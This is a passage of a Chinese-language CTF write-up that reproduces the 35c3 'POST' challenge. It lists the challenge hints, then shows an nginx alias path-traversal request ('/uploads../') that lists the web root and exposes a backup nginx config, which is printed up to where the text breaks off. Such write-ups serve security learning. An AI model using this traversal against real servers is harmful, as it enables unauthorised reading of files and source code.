 ## 35c3 POST 复现

最近有点忙，所以拖了这么久才来复现这个题目，题目官方已经给了wp和docker环境,[https://github.com/eboda/35c3/](https://github.com/eboda/35c3/)可以本地搭建一下。

题目的描述如下：

```
Go make some posts http://35.207.83.242/
Hint: flag is in db
Hint2: the lovely XSS is part of the beautiful design and insignificant for the challenge
Hint3: You probably want to get the source code, luckily for you it's rather hard to configure nginx correctly.
```
### 0x1 nginx配置问题，导致文件文件读取

```
http http://127.0.0.1:8000/uploads../
```
可以列取web目录，发现有个`default.backup`,是nginx的配置文件，发现开了两个web服务，一个在80端口，一个在8080端口的只允许本地访问。

```
server {
    listen 80;
    access_log  /var/log/nginx/example.log;

    server_name localhost;

    root /var/www/html;

    location /uploads {
        autoindex on;
        alias /var/www/uploads/;
    }

    location / {
        alias /var/www/html/;
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
    }

    location /inc/ {
        deny all;
    }
}

server {
    listen 127.0.0.1:8080;
    access_log /var/log/nginx/proxy.log;

    if ( $request_method !~ ^(GET)$ ) {
        return 405;
    }
    root /var/www/miniProxy;
    location / {
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
```